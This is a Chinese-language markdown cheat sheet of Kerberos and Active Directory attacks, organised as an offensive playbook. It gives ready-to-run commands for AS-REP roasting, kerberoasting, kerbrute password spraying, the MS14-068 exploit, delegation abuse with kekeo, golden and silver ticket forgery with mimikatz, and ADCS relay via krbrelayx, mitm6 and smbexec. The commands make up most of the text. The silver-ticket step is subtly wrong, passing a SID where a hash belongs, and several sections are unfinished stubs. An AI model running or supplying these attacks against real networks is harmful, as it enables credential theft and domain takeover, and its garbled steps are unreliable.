

# Kerberos攻击面

[TOC]

## 获取域用户

### AS-Reproasting

#### 利用条件

- 存在关闭**预身份认证（Pre-Authentication）**的用户

#### 攻击方式

- 使用**PowerView**检查**没有**开启**预身份认证**的用户

```shell
powershell "Set-ExecutionPolicy Bypass -Scope process -Force;Import-Module .\PowerView.ps1;Get-DomainUser -PreauthNotRequired"
```

- 获取**没有开启预身份认证**的用户的**ASREPHash**

  - 使用**ASREPRoast**获取**ASREPHash**
    - 注意：在**hash.txt**文件中的**$krb5asrep**后拼接**$23**字符串


  ```shell
  powershell "Set-ExecutionPolicy Bypass -Scope process -Force;Import-Module .\ASREPRoast.ps1;Get-ASREPHash -UserName <没有开启域身份认证的用户名> -Domain <域名>|Out-File -Encoding ASCII hash.txt"
  ```

  - 使用**GoRottenTomato**获取**ASREPHash**

  ```shell
  Tomato.exe asreproast -user <没有开启预认证的用户> -domain <域名> -format hashcat -path hash.txt
  ```

- 使用**hashcat**对**hash.txt**进行破解

```shell
hashcat.exe -m 18200 hash.txt password.dict --force
```

### kerberoasting

#### 攻击方式

- 破解用户选择，选择**服务账户**

  - 用户账户：密码由用户控制，定期修改，复杂程度较高

  - **服务账户**（推荐）：服务部署可能会使用弱口令，并且为了不影响业务，密码长期不修改

  - 机器账户：密码由机器随机生成，并且30天更换一次

- **未获取**域账号和密码

  - 使用**Invoke-Kerberoast**获取所有**SPN**账户**HASH**

  ```shell
  powershell "Set-ExecutionPolicy Bypass -Scope process -Force;Import-Module .\Invoke-Kerberoast-xencrypt.ps1;Invoke-Kerberoast -OutputFormat Hashcat|Select hash|ConvertTo-CSV -NoTypeInformation > hash.csv"
  ```


- **已获取**域账号和密码

  - 使用**impacket**工具包中的**GetUserSPNs**获取所有**SPN**账户**HASH**

  ```shell
  python GetUserSPNs.py <域名/域账号:密码> -request -dc-ip <域控服务器IP> -outputfile hash.txt -target-domain <要获取SPN账号的域名>
  ```

- 使用**hashcat**破解**SPN账户的HASH**获取明文**密码**

```shell
hashcat.exe -m 13100 hash.txt password.dict --force
```

### 用户名枚举和密码爆破

#### 攻击方式

- 使用**kerbrute**枚举域存在的**账号**

```shell
kerbrute-windows-amd64.exe userenum -d <目标域名> username.dict
```

- **kerbrute**使用**单个密码**爆破多个账号

```shell
kerbrute-windows-amd64.exe passwordspray -d <目标域名> username.list <固定密码>
```

- **kerbrute**使用密码字典爆破**单个账号**

```shell
kerbrute-windows-amd64.exe bruteuser -d <目标域名> password.dict <需要爆破的用户名>
```

## 提升域用户权限

### MS14-068

| PrimaryGroupId | 用户组             |
| -------------- | ------------------ |
| 513            | 域用户             |
| 512            | 域管理员           |
| 518            | 架构管理员         |
| 519            | 企业管理员         |
| 520            | 组策略创建者所有者 |

#### 攻击方式

- 使用**MS14-068**的EXP对目标域账户进行提权

```shell
MS14-068.exe -u username@domain.com -p password -s SID -d <域控服务器域名>
```

- 使用**mimikatz**导入票据

```shell
mimi.exe "kerberos::purge" "kerberos::ptc TGT_username@ad.com.ccache" "exit"
```

### 约束委派与非约束委派

#### 利用条件

- 使用BloodHound获取域内信息
- 分析可委派的SPN账号

#### 攻击方式

- 使用**kekeo**请求**TGT**票据

```shell
kekeo.exe "tgt::ask /user:<SPN服务账号> /domain:<域名> /password:<SPN服务账号密码> /ticket:<指定票据名称（可不填）>" "exit"
```

- 使用**kekeo**请求**TGS**票据

```shell
kekeo.exe "tgs::s4u /tgt:<TGT票据路径> /user:<高权限用户账号>@<域名> /service:<目标服务>/<目标服务器域名>" "exit"
```

- 使用**kekeo**把**TGS**票据注入到当前会话

```shell
kekeo.exe "kerberos::ptt <TGS票据路径>" "exit"
```

### 基于资源的约束委派

//TODO

## 域用户权限维持

### 黄金票据

#### 利用条件

1. **域名称**
2. 域的**SID**值
3. 域的**KRBTGT**账号的**HASH**
4. 伪造**任意用户名**

#### 攻击方式

- 使用**mimikatz**获取**krbtgt**用户的**hash**

```shell
mimi.exe "lsadump::lsa /patch"
```

- 使用**mimikatz**伪造administrator用户的TGT

```shell
mimi.exe "kerberos::golden /user:administrator /domain:<域名> /sid:<krbtgt用户的SID> /krbtgt:<krbtgt用户的hash> /ptt"
```

### 白银票据

#### 利用条件

1. 域名
2. 域SID
3. 目标服务器的FQDN即完整的域名
4. 可利用的服务
5. **服务账户**的NTLM哈希
6. 伪造的用户名即任意用户名

#### 攻击方式

- 使用**mimikatz**获取**SPN**账号的**hash**

```shell
mimikatz.exe "lsadump::lsa /patch"
```

- 使用**mimikatz**伪造administrator用户的TGT

```shell
mimikatz.exe "kerberos::golden /domain:<域名> /sid:<SPN账号的SID> /target:<目标服务器域名> /service:<目标服务> /rc4:<SPN账号的SID> /user:administrator /ptt"
```

## //TODO Kerberos Relay



### 攻击方式

- 攻击机开启**krbrelayx**监听，获取目标服务器**机器账户**权限

```shell
python3 krbrelayx.py --target http://ADCS服务器域名/certsrv/ -ip 攻击机IP --victim 受害服务器域名 --adcs --template Machine
```

- 攻击机开启**mitm6**监听

```shell
mitm6 --domain relay.com --host-allowlist win10.relay.com --relay adcs.relay.com
```

- 等待目标机器进行IPv6记录更新查询，触发查询即可获取**base64证书数据**
- 获取**base64证书数据**后，使用**smbexec**远程执行命令

```shell
KRB5CCNAME=admin.ccache python smbexec.py -k test.com/Administrator@win-test.test.com -no-pass
```

#### CVE-2022-33647（强制认证漏洞）

//TODO